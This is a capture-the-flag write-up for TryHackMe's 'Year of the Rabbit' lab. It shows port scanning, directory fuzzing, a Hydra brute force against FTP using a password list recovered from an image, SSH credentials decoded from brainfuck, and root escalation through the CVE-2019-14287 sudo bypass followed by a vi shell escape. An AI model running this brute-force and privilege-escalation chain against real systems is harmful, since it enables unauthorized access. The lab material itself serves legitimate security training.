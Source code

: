 ```bash
# PLATFORM          . THM
# CTF NAME          . Year of the Rabbit
# DESCRIPTION       . Time to enter the warren...
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/yearoftherabbit
```

```
sudo nmap -sSVC -T5 10.10.130.97 -p- -oN year
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a08b6b7809390332ea524c203e82ad60 (DSA)
|   2048 df25d0471f37d918818738763092651f (RSA)
|   256 be9f4f014a44c8adf503cb00ac8f4944 (ECDSA)
|_  256 dbb1c1b9cd8c9d604ff198e299fe0803 (ED25519)

80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- There's nothing much I could do with this information, so I fuzzed the webserver using `ffuf`.

```
ffuf -u http://10.10.130.97/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- Inside `/assets`, we have `RickRolled.mp4` and a `.css` file.

- The CSS file reveals the next step of the challenge

```
Nice to see someone checking the stylesheets.
Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

- If we navigate to `ip/sup3r_s3cr3t_fl4g.php`, we get the following message: `Word of advice... Turn off your javascript...` and then we're redirected to the next [hint](https://www.youtube.com/watch?v=dQw4w9WgXcQ).

- I didn't wanted to bother turning off JS on my browser just yet. I tried intercepting the request in Burp Suite, and, if we capture the response, there is an additional link between `sup3r_s3cr3t_fl4g.php` and the final redirect.

```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
```

- Here, we can find a image called `Hot_Babe.png` 

- I had no other hints or directions so I assumed this is involves steganography, so I've downloaded the file.

- A simple `strings` reveals some useful information

```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

- Let's find out which one it is

```
hydra -l ftpuser 10.10.130.97 -P passwords ftp -t 64 -I
```

- On the FTP server we find `Eli's Creds.txt` which is in brainfuck

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

```
User: eli
Password: DSpDiM1wAEwid
```

- After sshing to the box, we see the following mail:

```
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

- The path can be revealed using `find / -name s3cr3t 2>/dev/null`

```
ls -la

.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just {redacted}
Honestly!

Yours sincerely
   -Root
```

- So we got the password for gwendoline.. great ... security :) 

- The first flag is in `/home/gwendoline/user.txt`.

```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

- This can be bypassed using [this](https://nvd.nist.gov/vuln/detail/CVE-2019-14287) vulnerability.

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

- After the vi opened the file, press `esc` and write `:!/bin/sh`.

- The last flag is in `/root/root.txt`